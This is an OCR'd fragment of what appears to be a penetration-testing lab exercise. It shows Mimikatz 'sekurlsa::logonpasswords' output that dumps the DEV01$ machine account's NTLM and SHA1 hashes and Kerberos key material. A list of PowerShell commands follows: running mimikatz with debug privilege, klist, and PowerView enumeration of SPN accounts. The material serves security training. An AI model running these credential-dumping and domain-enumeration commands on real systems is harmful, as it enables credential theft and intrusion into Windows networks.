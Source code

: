 ```powershell
        wdigest :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : fb ec 60 8b 93 99 ee 24 a1 dd bf fa a8 da fd 61 cc 14 5c 30 ea 6a e9 f4 bb bc ca 1f be a7 9e ce 8b 79 d8 cb 4d 65 d3 42 e7 a1 98 ad 8e 43 3e b5 77 80 40 c4 ce 61 27 90 37 dc d8 62 e1 77 7a 48 2d b2 d8 9f 4b b8 7a be e8 a4 20 3b 1e 32 67 a6 21 4a b8 e3 ac 01 00 d2 c3 68 37 fd ad e3 09 d7 f1 15 0d 52 ce fb 6d 15 8d b3 c8 c1 a3 c1 82 54 11 f9 5f 21 94 bb cb f7 cc 29 ba 3c c9 5d 5d 41 50 89 ea 79 38 f3 f2 3f 64 49 8a b0 83 b4 33 1b 59 67 9e b2 d1 d3 76 99 3c ae 5c 7c b7 1f 0d d5 fb cc f9 e2 67 33 06 fe 08 b5 16 c6 a5 c0 26 e0 30 af 37 28 5e 3b 0e 72 b8 88 7f 92 09 2e c4 2a 10 e5 0d f4 85 e7 53 5f 9c 43 13 90 61 62 97 72 bf bf 81 36 c0 6f 0f 4e 48 38 b8 c4 ca f8 ac e0 73 1c 2d 18 ee ed 8f 55 4d 73 33 a4 fa 32 94 a9
        ssp :

Authentication Id : 0 ; 996 (00000000:000003e4)
User Name         : DEV01$
Domain            : INLANEFREIGHT
Logon Server      : (null)
Logon Time        : 6/28/2022 3:33:32 PM
SID               : S-1-5-20
        msv :
         [00000003] Primary
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * NTLM     : ef6a3c65945643fbd1c3cf7639278b33
         * SHA1     : a2cfa43b1d8224fc44cc629d4dc167372f81543f
        tspkg :
        wdigest :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 6/28/2022 3:33:33 PM
SID               : S-1-5-19
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        ssp :
        credman :

mimikatz(commandline) # exit
Bye!
```

[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> Import-Module .\PowerView.ps1
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname
[DEV01]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\Public> get-domainuser -spn | select samaccountname